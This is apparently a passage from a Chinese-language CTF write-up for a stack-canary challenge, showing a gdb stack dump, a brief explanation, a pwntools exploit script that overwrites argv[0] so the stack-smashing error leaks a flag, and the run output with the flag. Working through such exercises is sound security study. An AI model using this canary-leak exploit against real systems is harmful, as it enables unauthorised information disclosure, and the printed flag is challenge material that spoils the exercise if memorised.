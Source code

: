 ```bash
0024| 0xbffff3bc ("asdfasdf")
0028| 0xbffff3c0 ("asdf")
0032| 0xbffff3c4 --> 0xb7feff00 (<_dl_runtime_resolve>: push   eax)
0036| 0xbffff3c8 --> 0x804b008 --> 0xfbad240c 
0040| 0xbffff3cc --> 0x9 ('\t')
0044| 0xbffff3d0 --> 0xb7fb3000 --> 0x1aedb0 
0048| 0xbffff3d4 --> 0xb7fb3000 --> 0x1aedb0 
0052| 0xbffff3d8 --> 0xbffff3f8 --> 0x0 
0056| 0xbffff3dc --> 0x647c2c00 ('')
0060| 0xbffff3e0 --> 0x804a0a0 ("asdfadsf\n")
0064| 0xbffff3e4 --> 0x0 
0068| 0xbffff3e8 --> 0xbffff3f8 --> 0x0 
0072| 0xbffff3ec --> 0x80488c5 (sub    esp,0xc)
0076| 0xbffff3f0 --> 0xb7fb33dc --> 0xb7fb41e0 --> 0x0 
0080| 0xbffff3f4 --> 0xbffff410 --> 0x1 
0084| 0xbffff3f8 --> 0x0 
0088| 0xbffff3fc --> 0xb7e1c5f7 (<__libc_start_main+247>:   add    esp,0x10)
0092| 0xbffff400 --> 0xb7fb3000 --> 0x1aedb0 
0096| 0xbffff404 --> 0xb7fb3000 --> 0x1aedb0 
--More--(25/30) 
0100| 0xbffff408 --> 0x0 
0104| 0xbffff40c --> 0xb7e1c5f7 (<__libc_start_main+247>:   add    esp,0x10)
0108| 0xbffff410 --> 0x1 
0112| 0xbffff414 --> 0xbffff4a4 --> 0xbffff624 ("/root/Desktop/whatiscanary")
0116| 0xbffff418 --> 0xbffff4ac --> 0xbffff63f ("XDG_VTNR=2")
```

正好看到，argv[0]的地址应该是0xbffff4a4。然后在寄存器栏也能看到ebp的地址是0xbffff3e8。脚本就出来了。

```python
from pwn import *

pwn = remote('123.206.81.66',7777)

payload = 'a'*3 + '\x00'*(0x2C-3) + 'a'*(0xbffff4a4 - 0xbffff3e8) + p32(0x0804A0A0)   + '\x0A'

pwn.recvuntil("10):")
pwn.send(payload)
pwn.recvuntil("result!\n")

re = pwn.recv()

print re
```

结果是

```bash
root@kali:~/Desktop# python p.py
[+] Opening connection to 123.206.81.66 on port 7777: Done
*** stack smashing detected ***: hbctf{05162613b1e4dad2}
 terminated

[*] Closed connection to 123.206.81.66 port 7777

```
